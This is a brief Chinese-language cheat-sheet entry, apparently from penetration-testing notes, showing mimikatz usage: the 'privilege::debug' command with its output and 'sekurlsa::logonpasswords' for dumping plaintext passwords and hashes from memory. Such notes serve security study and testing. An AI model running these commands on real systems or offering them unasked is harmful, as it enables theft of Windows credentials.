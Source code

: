 ```yaml
---
title: 4.1.1 mimikatz
id: zhfly3416
---
```


### 4.1.1 mimikatz

用法:

```
mimikatz # privilege::debug (提升权限)
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords (抓取明文密码和 hash) 
```

![image](../img/2b62e00a405c41ae21d7874d2b61212b.png)